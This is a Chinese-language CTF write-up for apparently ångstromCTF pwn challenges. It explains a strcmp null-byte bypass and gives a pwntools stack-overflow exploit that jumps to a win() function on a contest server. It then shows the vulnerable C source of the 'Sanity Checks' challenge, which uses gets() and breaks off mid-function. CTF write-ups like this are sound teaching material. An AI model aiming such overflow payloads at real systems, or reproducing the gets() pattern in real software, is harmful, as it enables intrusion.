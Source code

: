 ```c
    // win();
    
    return 0;
}


```

经过审计发现题目给了后面函数win()，我们只要bypass `strcmp`函数即可利用栈溢出来调用win()

由于`strcmp`函数只判断到`\x00`截止，我们可以利用`password123%00`来bypass。

exp：

```python
from pwn import *

e=ELF('./tranquil')
p=remote('shell.actf.co',21830)
#process('./tranquil')

pay='password123'+(0x40-len('password123'))*'a'+p64(0)+p64(e.symbols['win'])

p.sendline(pay)
p.interactive()

```



### Sanity Checks

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            
                            FILE *f = fopen("flag.txt","r");
                            
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
```